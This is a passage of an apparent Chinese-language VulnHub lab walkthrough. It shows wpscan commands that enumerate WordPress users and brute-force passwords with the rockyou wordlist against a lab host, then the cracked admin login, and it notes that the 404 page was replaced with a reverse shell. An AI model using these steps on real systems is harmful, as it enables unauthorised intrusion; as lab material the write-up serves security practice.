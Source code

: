    4. 枚举用户

      `wpscan --url http://10.0.2.17/ --enumerate u  --api-token aOUBjJdsfasasfZysYHdeLssfaadqfc `

      ![image-20220826151501598](vulnhub靶场.assets/image-20220826151501598.png)

   5. 密码爆破

      `wpscan --url http://10.0.2.17/ -P /usr/share/wordlists/rockyou.txt  --api-token`

      ![image-20220826160949442](vulnhub靶场.assets/image-20220826160949442.png)

      > admin / iloverockyou

   

   





## 漏洞利用

**登录成功，修改404页面为反弹shell**

![image-20220826161913471](vulnhub靶场.assets/image-20220826161913471.png)
